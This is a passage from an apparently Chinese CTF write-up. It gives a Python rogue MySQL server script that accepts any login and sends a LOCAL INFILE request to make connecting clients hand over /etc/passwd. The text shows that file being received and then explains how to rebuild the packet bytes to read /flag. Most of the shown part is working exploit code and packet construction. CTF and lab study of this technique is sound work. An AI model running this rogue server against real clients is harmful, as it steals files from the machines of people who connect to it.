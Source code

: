 ```
#2 Accept all authentications
authok = "\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"
#3 Payload
#数据包长度
payloadlen = "\x0c" #这里明显有问题啦，因为文档告诉我们数据包的长度是用三个字节表示的
padding = "\x00\x00"
payload = payloadlen + padding +  "\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64" #这里又把序列号拼在了 数据包的 payload部分
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
s.listen(1)
while True:
    conn, addr = s.accept()
    print 'Connection from:', addr
    conn.send(greeting)
    while True:
        data = conn.recv(BUFFER_SIZE)
        print " ".join("%02x" % ord(i) for i in data)
        conn.send(authok)
        data = conn.recv(BUFFER_SIZE)
        conn.send(payload)
        print "[*] Payload send!"
        data = conn.recv(BUFFER_SIZE)
        if not data: break
        print "Data received:", data
        break
    # Don't leave the connection open.
    conn.close()
```  
  
在服务器运行以上脚本，并在客户端连接  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfsxbbzX3kZvxCdHV6n61r20OZnL9MpSmDX1ib2QKpxKllQF4mX8VvDX9ZGmkG0qAKFbS4QRNUlc6g/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
收到 /etc/passwd 文件内容  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfsxbbzX3kZvxCdHV6n61r2ic1ichialY1zS8HzX9PxiaAEWgQ0nM2clmVRibU4HWiaBDF7RicvxTgsGx0WQ/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
#### 读取 /flag  
  
如果想要读取 /flag 如何修改 payload 呢？这是一个很简单的问题，因为已知了这是一个   
LOCAL INFILE Request 数据包，所以只需要构造一下数据包首部和 payload 部分即可（保持 POC 中其余字段不变）。  
  
首部包括三个字节长的长度字段，一个字节长的序列号。  
  
payload 部分是一个字节长的包类型 0xFB 和 xx 字节长的文件名  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfsxbbzX3kZvxCdHV6n61r29KzZF1DGicsoThic6zxsch5SmU8xW1C6YPKXNicAEWAHAleBuflep3Tkg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
现在真正的数据部分是/flag，转换成十六进制为 2f666c6167，其拼接上一个字节的包类型 0xFB 就凑成了 payload 部分：fb 2f 66 6c 61 67 ，故首部中的长度字段值为 0x06。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfsxbbzX3kZvxCdHV6n61r26a7Xl6LeYGAljic97wElLiaHoxJibuHOv6hjug3U4leslnxZosIe5Hztw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  